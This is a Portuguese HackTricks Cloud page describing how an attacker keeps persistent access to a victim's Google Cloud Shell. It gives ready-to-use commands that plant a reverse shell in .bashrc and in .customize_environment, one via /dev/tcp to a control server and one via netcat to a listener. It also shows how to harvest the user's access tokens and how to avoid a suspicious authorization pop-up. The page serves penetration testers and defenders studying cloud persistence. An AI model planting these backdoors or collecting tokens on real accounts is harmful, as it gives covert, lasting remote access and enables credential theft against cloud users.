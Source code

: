 # GCP - Persistência do Cloud Shell

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* repositórios do github.

</details>

## Cloud Shell

Para mais informações, verifique:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Backdoor Persistente

[**Google Cloud Shell**](https://cloud.google.com/shell/) fornece acesso à linha de comando aos seus recursos na nuvem diretamente do seu navegador sem nenhum custo associado.

Você pode acessar o Cloud Shell da Google a partir do **console web** ou executando **`gcloud cloud-shell ssh`**.

Este console possui algumas capacidades interessantes para atacantes:

1. **Qualquer usuário da Google com acesso ao Google Cloud** tem acesso a uma instância do Cloud Shell totalmente autenticada (as Contas de Serviço podem, mesmo sendo Proprietárias da organização).
2. Essa instância **manterá seu diretório home por pelo menos 120 dias** se nenhuma atividade ocorrer.
3. Não há **capacidades para uma organização monitorar** a atividade dessa instância.

Isso basicamente significa que um atacante pode colocar uma backdoor no diretório home do usuário e, desde que o usuário se conecte ao GC Shell a cada 120 dias pelo menos, a backdoor sobreviverá e o atacante obterá um shell toda vez que for executado apenas fazendo:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Existe outro arquivo na pasta principal chamado **`.customize_environment`** que, se existir, será **executado toda vez** que o usuário acessar o **cloud shell** (como na técnica anterior). Basta inserir a backdoor anterior ou uma semelhante para manter a persistência enquanto o usuário utilizar "frequentemente" o cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
É importante notar que **na primeira vez que uma ação que requer autenticação é realizada**, uma janela de autorização pop-up aparece no navegador do usuário. Esta janela deve ser aceita antes que o comando possa ser executado. Se um pop-up inesperado aparecer, isso poderá levantar suspeitas e potencialmente comprometer o método de persistência que está sendo usado.
{% endhint %}

Este é o pop-up ao executar `gcloud projects list` a partir do shell na nuvem (como atacante) visto na sessão do usuário no navegador:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

No entanto, se o usuário tiver usado ativamente o cloudshell, o pop-up não aparecerá e você pode **coletar tokens do usuário com**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Como a conexão SSH é estabelecida

Basicamente, são usadas essas 3 chamadas de API:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (irá fazer você adicionar sua chave pública criada localmente)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (irá fazer você iniciar a instância)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (irá informar o IP do Google Cloud Shell)

Mas você pode encontrar mais informações em [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Referências

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
* repositórios do github.

</details>
